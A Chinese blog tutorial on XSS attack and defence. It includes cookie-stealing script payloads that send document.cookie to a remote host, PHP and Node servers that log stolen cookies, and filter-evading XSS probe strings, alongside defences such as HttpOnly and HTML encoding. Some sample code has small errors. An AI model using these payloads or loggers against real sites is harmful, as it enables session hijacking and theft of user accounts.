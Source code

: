 ```yaml
---
title: web安全-浅谈xss攻防（二）
date: 2018-10-10 16:05:13
tags:  
    - web安全
    - xss
categories:
    - xss
# banner: /assets/05.jpg
---
```


# 前言
上次介绍了什么是XSS以及XSS的三种类型，作为上次小尾巴的总结来说：XSS跨站脚本是一种经常出现在web应用程序中的计算机安全漏洞，是由于web应用程序对于用户的输入过滤不足引起的。攻击者利用网站漏洞把恶意脚本代码注入到网页之中，当其他用户浏览这些网页时，就会执行其中的恶意代码，轻者能达到恶作剧的目的，重者可以对受害者采取cookie资料窃取，会话劫持，钓鱼欺骗等各种攻击；分为三种类型，服务端的存储型和反射性，客户端自身漏洞引起的DOM型。这次我简单总结一些常见的攻击对应的防御措施，方便以后学习回顾;
<!--more-->
# 1.Cookie劫持
下面是几种是窃取用户Cookie信息的恶意代码，攻击者向漏洞页面写入类似的恶意代码从而达到获取客户端cookie信息的目的:

```
<script>document.location="http://test.com/cookie.asp?cookie ='+document.cookie</script>
<img src="http://test.com/cookie.asp?cookie ='+document.cookie">
<script>new Image().src="http://test.com/cookie.asp?cookie ='+document.cookie"</script>
<script>img=new Image();img.src="http://test.com/cookie.asp?cookie ='+document.cookie";img.wdith=0;img.height=0;</script>
<script>document.write('<img src="http://test.com/cookie.asp?cookie ='+document.cookie" width=0 height=0 border=0>')</script>
```
诸如此类，一旦注入成功，这些恶意代码都会向某个特定的远程服务器提交cookie，攻击者会在远程服务器上写一个接收和记录cookie信息的文件
例如php版本：
```php
<?php
    $cookie=$_GET['cookie'];
    $log= fopen("cookie.txt","a");
    fwrite($log,$cookie ."\n");
    fclose($log);
?>
```
或者node来处理:
```js
const http = require('http');
const fs = require('fs');

http.createServer(function(req,res){
    var Cookies = {};
    
    req.headers.cookie && req.headers.cookie.split(';').foEach(function(Cookies){
        var parts = Cookie.split('=');
        Cookies[ parts[ 0 ].trim() ] = ( parts[ 1 ] || '' ).trim();
    })

    console.log(Cookies)

    res.writeHeader(200,{
        'Set-Cookie' : 'SSID=EqAc1D; Expires=Wed', 
        // 注意上面我们不设置HttpOnly;Fix:>>>'SSID=EqAc1D; Expires=Wed;HttpOnly'<<<
		'Content-Type' : 'text/plain'
    });
    
    fs.open('cookie.txt','r+',function(err,fd){
        if(err){
            return console.error(err);
        }
        fs.writeFile(fd,Cookies,function(){
            if(err){
                return console.error(err);
            }
        })
    })
}).listen(8000);
```
亦或是jsp版本、python flask等等诸如此类可以获取到从客户端发来的cookie做接收和记录操作的。

获取到存储信息的cookie.txt后，攻击者就可以通过修改网站的cookie信息（f12打开开发者控制工具，application/Cookies）来登入网站，从而来进行进一步的攻击操作。

## 防止cookie会话劫持
根本原因是攻击者获取cookie的恶意js代码注入到站点，进一步传到攻击者的远程服务器，从而进行攻击操作；
对于可能的意外注入站点的获取cookie的恶意js代码，我们一般要在设置cookie时加HttpOnly，来禁止意外注入站点的恶意js代码操作Cookie造成xss攻击
比如node设置HttpOnly：
```js
'Set-Cookie' : 'SSID=EqAc1D; Expires=Wed ;HttpOnly'
```
或者php设置HttpOnly：
```php
<?php ini_set("session.cookie_httponly", 1); ?>
```
# 2.提高攻击门槛

## 使用XSS Filter
针对用户提交的数据进行有效的验证，只接受我们规定的长度或内容的提交，过滤掉其他的输入内容，例如：
1.表单数据指定值的类型：年龄只能是 int 、name 只能是字母数字等
2.过滤或移除特殊的 html 标签：`<script>`、`<iframe>`等
3.过滤 js 事件的标签：onclick、onerror、onfocus等
4.对于要求用户输入的一些特殊格式的字段，用正则和字段长度进行严格限制，比如手机号，邮箱等
如在客户端进行验证手机号的JavaScript代码:
```js
<form id="test">
    <input type="text" id="tel">
    <input type="button" onclick="checkTel()"> 
</form>
<script>
    function(){
        let re = /^020-\d{8}$/;
        if(re.test(document.getElementById("Tel").value)){
            alert('电话号码格式正确');
        }else{
            alert('错误的电话号码');
        }
    }
</script>
```
这段JavaScript验证代码要求用户输入的必须是020-开头，后跟8位数字.
> 但是需要特别注意的是，*仅仅在客户端进行非法输入的验证和检测是远远不够的*，因为客户端组件和用户输入不在服务器的控制范围内，用户能够完全控制客户端及提交的数据，比如firebug、TemperDate之类的工具，拦截应用程序收到和发布每一个HTTP/HTTPS请求和响应，对其进行修改和检查，从而绕过客户端的检验将信息提交到服务器中。因此，确认客户端生成数据的唯一安全方法就是在服务端实施保护措施。

## 输出编码Xss Escape
有时候我们又不可避免的需要用户输入一些特殊字符，但是我们又不确定用户输入的这段含特殊字符的数据是不是恶意的含xss的字符，为了保证用户输入的完整性和正确性，就可以使用编码（HTMLEncode）进行处理。

HTML编码在防止xss攻击上能起很大的作用，它主要使用对应的实体代替HTML字符，让该字符作为其HTML文档的内容而非结构加以处理。

| 显示 | 实体名字 | 实体编号 |
| :------: | :------: | :------: |
| `<` | `&lt;` | `&#60;` |
| `>` | `&gt;` | `&#62;` |
| `&` | `&amp;` | `&#38;` |
| `"` | `&quot;` | `&#34;` |

上面就是几个可能触发xss的敏感字符，都是一些特殊的HTML字符。都这些字符实现编码和转义后，能够有效地防范HTML注入和XSS攻击

例如php的`htmlspecialchars()`库函数，就能够将用户输入的特殊字符进行实体转换：
- `<` 转成 `&lt;`
- `>` 转成 `&gt;`
- `&` 转成 `&amp;`
- `"` 转成 `&quot;`
- `'` 转成 `&#39;`

实际情况中，我们可以结合这两种情况进行过滤
![安全的过滤形式](/assets/images/xss-encode02.png)

# 3.Xss漏洞检测Poc
标准的xss漏洞检测代码
```js
<script>alert('xss')</script>
```
img 图片标记属性跨站攻击代码
```
<img src="javascript:alert(/xss/)"></img> <img dynsrc="javascript:alert('xss')">
```
无需 “<>”，利用 html 标记事件属性跨站
```
<img src="" onerror=alert("xss")>
```
空格与回车符转换
```
<img src="Jav&#x09;ascript:alert('xss')"> <img src="Jav&#x0A;ascript:alert('xss')"> <img src="Jav&#x0D;ascript:alert('xss')">
```
10 进制转换
```
<img src="&#74&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#120&#115&#115&#39&#41">
```
以上代码都可以做 Poc 使用，在有变量的位置插入，如果成功执行则代表有漏洞。
只要你提交的Poc，服务端原封不动的返回了，说明服务端不经过任何处理就显示了，就证明有漏洞存在。

# 参考资料
[《XSS跨站脚本剖析与防御》--邱永华](https://book.douban.com/subject/25711796/)
[《白帽子讲web安全》--吴翰清](https://book.douban.com/subject/10546925/)
[《Web 安全：前端攻击 XSS 深入解析》](https://blog.csdn.net/gitchat/article/details/78726803)